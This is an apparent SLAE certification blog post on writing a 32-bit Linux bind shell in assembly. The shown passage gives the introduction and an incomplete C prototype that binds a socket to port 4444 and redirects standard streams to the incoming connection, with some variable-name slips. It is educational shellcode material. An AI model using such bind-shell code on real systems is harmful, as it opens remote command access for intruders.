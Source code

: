```yaml
---
title: Linux bind shell in assembly
author: Stipe Marinovic
date: 2020-05-23 07:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```


## Introduction ##

Objective of this blog post is to explain process of creating bind shell in assembly language for 32 bit Linux. 
Blog post was created for the SLAE certification exam and it describes process of creating both: bind shell and wrapper script which allows easy modification of bind shell's listening port. 
Bind shell can simply be described as a piece of code which can be used to gain command execution (shell access) on target host. 
It is mostly used within payload sent to remote application which is vulnerable to buffer overflow. 

## Prototype ##

To get idea how bind shell works and which syscalls are used/needed, we can create prototye of bind shell code in C.  

```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4444);              // port 4444
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4444 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 
```
